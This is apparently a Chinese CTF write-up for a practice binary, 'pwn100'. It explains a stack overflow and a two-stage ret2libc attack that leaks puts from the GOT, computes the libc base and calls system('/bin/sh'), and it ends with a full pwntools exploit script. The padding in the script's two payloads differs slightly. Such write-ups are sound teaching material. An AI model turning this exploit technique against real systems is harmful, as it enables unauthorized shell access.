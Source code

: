 检查保护机制

![p1.png](https://i.loli.net/2019/08/06/Q2HasZKNBlzLd8Y.png)

查看功能，在这里存在栈溢出

```c 
int sub_40068E()
{
  char v1; // [rsp+0h] [rbp-40h]

  sub_40063D(&v1, 200LL, 10LL);
  return puts("bye~");
}
```

不存在后门函数，需要ret2libc，首先通过栈溢出泄漏libc

由于这里是64位程序，传参需要通过寄存器，通过程序中的gadget可以实现

相应payload为 popRdi_ret+func.got+puts.plt+retAddr

此处我们泄漏puts的函数，因此相应为

```py
p64(p_rdi) + p64(e.got['puts']) + p64(e.plt['puts']) + p64(0x40068e)
```

这里返回地址我们重设为程序开头，可以再次输入

第一次溢出就可以泄漏puts.got中的内容，通过libc中puts的偏移计算出lib的基址，再取得system和/bin/sh的地址，从而在第二次输入时，构造

```python
p64(p_rdi) + p64(binsh) + p64(system)
```

即可getshell

![p2.png](https://i.loli.net/2019/08/06/sTaqLmQMZuG7I8n.png)

完整EXP：

```python
from pwn import *
p = process("./pwn100")
e = ELF("./pwn100")
libc = ELF("/libc64.so.6")
payload = 'a' * 0x40 + 'bbbbbbbb'
p_rdi = 0x400763
payload += p64(p_rdi) + p64(e.got['puts']) + p64(0x400500) + p64(0x40068e)
payload = payload.ljust(200, 'c')
p.sendline(payload)
p.recvuntil('\n')
libc_base = u64(p.recv(6) + '\x00\x00') - libc.symbols['puts']
payload = 'a' * 0x40 + 'bbbbbbb'
payload += p64(p_rdi) + p64(libc_base + 0x18CD57) + p64(libc_base + libc.symbols['system'])
payload = payload.ljust(200, 'c')
p.sendline(payload)
p.interactive()
```
